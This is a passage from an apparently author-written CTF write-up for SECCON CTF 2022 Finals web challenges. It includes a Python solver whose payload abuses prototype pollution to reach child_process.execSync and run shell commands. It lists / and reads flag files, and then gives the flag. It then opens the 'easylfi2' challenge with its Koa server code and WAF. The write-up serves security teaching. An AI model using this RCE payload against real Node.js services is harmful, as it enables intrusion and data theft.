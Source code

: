 Got a RCE!

### Solver

```python
import os
import httpx

BASE_URL = f"http://{os.getenv('SECCON_HOST')}:{os.getenv('SECCON_PORT')}"


def evaluate(command: str) -> str:
    res = httpx.post(
        f"{BASE_URL}/calc",
        json={
            "expr": f'o = constructor; o.assign(__proto__, o.getOwnPropertyDescriptor(o.getPrototypeOf(toString), "constructor")); f = value("return global.process.mainModule.constructor._load(`child_process`).execSync(`{command}`).toString()"); f()'
        },
    )
    return res.text


files = evaluate("ls /").splitlines()
for file in files:
    if file.startswith("flag-"):
        print(evaluate(f"cat /{file}"))
```

### Flag

```
SECCON{pr0totyp3_po11ution_iS_my_friend}
```

## [web 200] easylfi2

- International: 10 solved / 10
- Domestic: 8 solved / 12
- https://github.com/arkark/my-ctf-challenges/tree/main/challenges/202302_SECCON_CTF_2022_Finals/web/easylfi2

Description:

> [easylfi](https://github.com/SECCON/SECCON2022_online_CTF/tree/main/web/easylfi) again! I know you fully understand everything about curl.
>
> - `http://easylfi2.{int,dom}.seccon.games:3000`

### Overview

The server-side code is as follows:

```javascript
const app = new (require("koa"))();
const execFile = require("util").promisify(require("child_process").execFile);

const PORT = process.env.PORT ?? "3000";

// WAF
app.use(async (ctx, next) => {
  await next();
  if (JSON.stringify(ctx.body).match(/SECCON{\w+}/)) {
    ctx.body = "🤔";
  }
});
```

[^babybox-1]: Actually, I discovered the Prototype Pollution before I found this report. Although I don't like 0-day challenges in CTF, it's not 0-day in this case. Also, the part of "Prototype Pollution to RCE" is interesting for me. So I decided to create this challenge.
[^maas-1]: The CSP bypass is too complicated to explain. So, please try it with your hands :raised_hands:
[^light-note-1]: Firefox has recently added support for import maps at version 108 :tada:<br />ref. https://www.mozilla.org/en-US/firefox/108.0/releasenotes/
[^light-note-2]: However, we can construct nested forms by DOM manipulation in JavaScript.<br />E.g. `document.body.appendChild(document.createElement("form")).appendChild(document.createElement("form"))`<br />ref. https://html.spec.whatwg.org/#association-of-controls-and-forms
[^light-note-flag]: https://store.steampowered.com/app/381890/Induction
[^dark-note-flag]: https://store.steampowered.com/app/360740/Downwell